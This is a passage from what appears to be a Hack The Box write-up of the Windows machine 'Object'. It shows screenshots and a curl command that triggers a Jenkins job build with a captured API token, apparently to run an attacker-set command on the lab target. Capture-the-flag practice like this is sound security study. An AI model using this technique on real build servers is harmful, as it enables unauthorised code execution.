 ![light mode only](/assets/img/posts/htb/machines/windows/hard/object/object_33.png){: .light .w-75 .shadow .rounded-10 w='1212' h='668' }
![dark mode only](/assets/img/posts/htb/machines/windows/hard/object/object_33.png){: .dark .w-75 .shadow .rounded-10 w='1212' h='668' }


We can now trigger the job again to build with the new command.

```zsh
0x3ds@kali $ curl -X POST -L --user shadows:113cd8cf72a195b55d66f037ad1d0a7331 \
    'http://object.htb:8080/job/shadownedya/build?token=ShadowsAuthToken'

```
